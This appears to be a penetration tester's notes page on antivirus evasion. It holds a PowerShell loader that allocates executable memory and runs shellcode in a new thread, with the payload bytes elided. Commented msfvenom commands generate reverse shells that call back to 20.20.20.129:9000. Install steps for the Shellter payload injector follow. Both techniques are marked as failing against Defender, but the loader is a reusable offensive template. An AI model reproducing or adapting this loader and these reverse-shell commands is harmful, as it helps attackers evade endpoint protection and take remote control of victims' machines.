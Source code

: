 ## Evasion with powershell using in-memory injection: didn't work against defender (31/7/2022)
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);'

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru

# cmd shell
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f powershell

# powershell shell
# msfvenom -p windows/x64/powershell_reverse_tcp lhost=20.20.20.129 lport=9000 -f powershell

[Byte[]];
[Byte[]]$sc = 0xfc,0x48,0x52,0x51,0x56,0x48,...MORE SHELLCODE...,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf;

$size = 0x1000;

if ($sc.Length -gt 0x1000){
    $size = $sc.Length
}

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++){
    $winFunc::memset([IntPtr]($x.ToInt64()+$i), $sc[$i], 1)
}

$winFunc::CreateThread(0,0,$x,0,0,0)

for (;;) { Start-sleep 60 };
```
---

## shellter: didn't work against defender (31/7/2022)
```bash
dpkg --add-architecture i386
apt update && apt install shellter wine32:i386
```
### note: regarding the error `wine: could not load kernel32.dll, status c0000135` you can delete the config in the home directory
```bash
rm -rf ~/.wine
```
